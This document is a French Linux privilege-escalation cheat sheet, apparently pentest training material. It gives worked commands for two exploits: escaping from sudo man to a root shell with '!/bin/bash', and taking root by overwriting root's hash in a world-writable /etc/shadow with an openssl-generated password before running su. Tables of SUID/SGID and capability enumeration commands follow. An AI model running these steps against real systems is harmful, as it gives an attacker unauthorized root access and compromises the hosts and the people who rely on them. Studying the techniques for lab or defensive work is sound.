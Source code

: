 ### Exploitation sudo (Misconfiguration)

#### Exemple 1: Escalation via man
```bash
student@target:~$ sudo -l
Matching Defaults entries for student on target:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
User student may run the following commands on target:
    (root) NOPASSWD: /usr/bin/man

# Exploitation:
sudo man ls
!/bin/bash
# → Shell root obtenu
```

#### Exemple 2: Fichier /etc/shadow en écriture
```bash
john@target2:~$ ls -la /etc/shadow
-rw-rw-rw- 1 root shadow 959 Nov 14  2024 /etc/shadow
# → Fichier editable !

# Exploitation:
# 1. Générer un hash de mot de passe
openssl passwd -1 -salt abc passwd
# Résultat: $1$abc$qBiMc4NzTo1K6hhLFiSfX1

# 2. Remplacer le hash de root dans /etc/shadow
# Ligne originale: root:!:...
# Ligne modifiée: root:$1$abc$qBiMc4NzTo1K6hhLFiSfX1:...

# 3. Se connecter en root
su root
# Password: passwd
```

### Fichiers SUID/SGID
| Commande | Description |
|----------|-------------|
| `find / -perm -4000 2>/dev/null` | Fichiers SUID |
| `find / -perm -2000 2>/dev/null` | Fichiers SGID |
| `find / -perm -6000 2>/dev/null` | Fichiers SUID et SGID |
| `find / -perm -1000 2>/dev/null` | Fichiers avec sticky bit |

### Capabilities
| Commande | Description |
|----------|-------------|
| `getcap -r / 2>/dev/null` | Fichiers avec capabilities |
| `capsh --print` | Capabilities actuelles |

---